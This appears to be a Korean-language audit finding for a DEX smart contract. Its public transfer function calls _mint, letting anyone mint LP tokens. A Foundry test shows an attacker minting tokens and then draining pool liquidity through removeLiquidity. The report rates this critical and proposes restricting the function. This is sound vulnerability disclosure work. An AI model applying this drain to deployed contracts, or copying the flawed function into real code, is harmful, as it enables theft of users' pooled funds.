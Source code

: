 ## 김영운, 김지우, 구민재

### 설명

문제 발생 - transfer function

```solidity
function transfer(address to, uint256 lpAmount) public override(ERC20, IDex) returns (bool) { //visibility
        _mint(to, lpAmount);
        return true;
}
```

- transfer 함수의 visibility가 public으로 설정되어 있어 누구나 호출할 수 있음
- _mint를 누구나할 수 있어 totalSupply(LP token양)를 조작할 수 있음

테스트

```solidity

contract CustomERC20 is ERC20 {
    constructor(string memory tokenName) ERC20(tokenName, tokenName) {
        _mint(msg.sender, 1000 ether);
    }

    function mint(uint amount) external {
        _mint(msg.sender,amount);
    }
}

contract DexTest is Test {
    Dex public dex;
    CustomERC20 tokenX;
    CustomERC20 tokenY;

    address player1 = address(0x1234);
    address player2 = address(0x1235);
    address player3 = address(0x1236);
    address player4 = address(0x1237);

    function setUp() public {
        tokenX = new CustomERC20("XXX");
        tokenY = new CustomERC20("YYY");

        dex = new Dex(address(tokenX), address(tokenY));

        tokenX.approve(address(dex), type(uint).max);
        tokenY.approve(address(dex), type(uint).max);

        vm.startPrank(player1);
        tokenX.mint(10000 ether);
        tokenY.mint(10000 ether);
        tokenX.approve(address(dex), type(uint).max);
        tokenY.approve(address(dex), type(uint).max);
        dex.addLiquidity(1000 ether, 1000 ether, 0); //lp = 1000
        vm.stopPrank();

        vm.startPrank(player2);
        tokenX.mint(10000 ether);
        tokenY.mint(10000 ether);
        tokenX.approve(address(dex), type(uint).max);
        tokenY.approve(address(dex), type(uint).max);
        dex.addLiquidity(1000 ether, 1000 ether, 0); //lp = 1000
        vm.stopPrank();

    }

    function testTransfer() external {
        vm.startPrank(player3);
        uint before = dex.balanceOf(player3);
        emit log_named_uint("before",before);
        bool t = dex.transfer(player3, 100 ether);
        uint a = dex.balanceOf(player3);
        emit log_named_uint("after",a);

        emit log_named_uint("before x:", tokenX.balanceOf(player3));
        emit log_named_uint("before y:", tokenY.balanceOf(player3));
        dex.removeLiquidity(dex.balanceOf(player3), 0,0);
        emit log_named_uint("after  x:", tokenX.balanceOf(player3));
        emit log_named_uint("after  y:", tokenY.balanceOf(player3));
        vm.stopPrank();
    }
}
```
<img width="432" alt="스크린샷 2023-03-26 오후 8 37 22" src="https://user-images.githubusercontent.com/127647051/227773104-9f0d829b-2cbd-4c8a-b556-4f3b75a8135c.png">


- player1, player2가 pool에 liquidity를 공급하였을때, player3가 100 ether를 mint하여 해당 LP token만큼 removeLiquidity할 수 있음

### 파급력

- Critical → 공격자는 mint 함수를 통해 LP token을 발행하여, liquidity를 pool에 공급하지 않더라도 pool에 있는 토큰을 모두 remove할 수 있음

### 해결방안

- transfer 함수의 visibility를 public → internal로 변경하기 또는 onlyOwner만 호출할 수 있도록 변경
